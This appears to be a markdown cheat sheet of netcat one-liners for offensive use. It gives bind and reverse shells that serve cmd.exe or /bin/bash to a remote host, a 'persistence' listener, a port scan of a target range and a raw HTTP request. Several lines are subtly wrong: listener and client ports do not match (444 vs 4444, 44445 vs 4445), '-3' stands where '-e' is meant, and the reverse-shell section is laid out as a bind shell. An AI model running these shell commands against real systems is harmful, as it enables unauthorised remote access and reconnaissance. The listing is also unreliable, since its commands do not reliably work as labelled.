 # Netcat Usage

```bash
# Bind Shell w/ cmd shell
nc -nlvp 444 -e cmd.exe
nc -nv <target w/ listener> 4444 
```

```bash
# Reverse Shell w/ cmd shell to listening host
nc -nlvp 4444
nc -nv <target w/ listener> 4444 -3 /bin/bash
```

```bash
# Reverse shell w/ persistance
nc -nLvp 44445 -e cmd.exe
nc -nv <target w/ listener> 4445
```

```bash
# Receive return packages on a different port
nc -nLvp 44445 -e cmd.exe
nc -nv -p 4849 <target w/ listener> 4445
```

```bash
# Netcat portscan
nc -n -v -z -w1 <target_ip> 100-250
```

```bash
# Netcat connecting to HTTP service
nc <target> 80
GET / HTTP/1.0
HOST: <IP>
```
